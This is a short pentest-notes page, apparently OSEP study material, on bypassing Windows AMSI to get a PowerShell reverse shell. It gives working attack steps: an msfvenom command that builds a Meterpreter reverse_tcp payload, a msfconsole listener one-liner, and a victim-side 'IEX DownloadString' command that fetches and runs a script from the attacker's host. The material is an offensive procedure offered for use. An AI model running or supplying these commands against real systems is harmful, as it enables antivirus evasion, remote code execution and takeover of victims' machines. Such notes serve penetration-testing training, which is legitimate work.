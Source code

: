 # AMSI Bypass

<details>

<summary>Powershell Rev shell from CMD.exe</summary>

* Download all files from [https://github.com/beauknowstech/OSEP-Everything/tree/main/AMSI](https://github.com/beauknowstech/OSEP-Everything/tree/main/AMSI)

- Change Line 4 to Kali's IP
  * ![](<../.gitbook/assets/image (1) (1) (1).png>)

* Host Python Webserver on Kali&#x20;
* Generate payload & put in line 47 of shellcoderunner.ps1<img src="../.gitbook/assets/image (3) (1).png" alt="" data-size="line">

```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=tun0 LPORT=443 EXITFUNC=thread -f powershell
```

* Start Msfconsole listener

```
msfconsole -q -x "use exploit/multi/handler; set PAYLOAD windows/x64/meterpreter/reverse_tcp; set LHOST tun0; set LPORT 443; set ExitOnSession false; exploit -j"
```

In Victim's cmd.exe shell, run:

```
powershell -c IEX (New-Object Net.WebClient).DownloadString('http://192.168.61.128/runall.ps1')
```

Following errors are expected:

<img src="../.gitbook/assets/image (4) (1).png" alt="" data-size="original">\


</details>



